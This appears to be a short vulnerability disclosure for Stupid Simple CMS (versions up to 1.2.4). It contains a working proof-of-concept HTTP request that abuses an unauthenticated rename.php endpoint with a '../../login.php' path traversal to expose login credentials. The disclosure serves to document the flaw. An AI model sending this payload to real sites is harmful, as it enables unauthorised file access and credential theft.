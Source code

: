 product： Stupid Simple CMS ( Blogger )

download link： https://github.com/codelyfe/Stupid-Simple-CMS

version：<=1.2.4

POC:
```shell
POST http://localhost/file-manager/rename.php HTTP/1.1
Host: localhost
Content-Length: 36
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/file-manager/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

oldName=../../login.php&newName=1.txt
```
The code audit found that the file renaming interface has no authentication measures, which can cause arbitrary file reading.
代码审计发现文件重命名接口无鉴权措施，可导致任意文件读取
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312171633421.png)
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312151700038.png)
The user name and password are included in the login.php as a sample demonstration
login.php中含有用户名和密码，作为样例演示
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312151705967.png)
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312151705967.png)
Local test read successfully.
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312151706716.png)
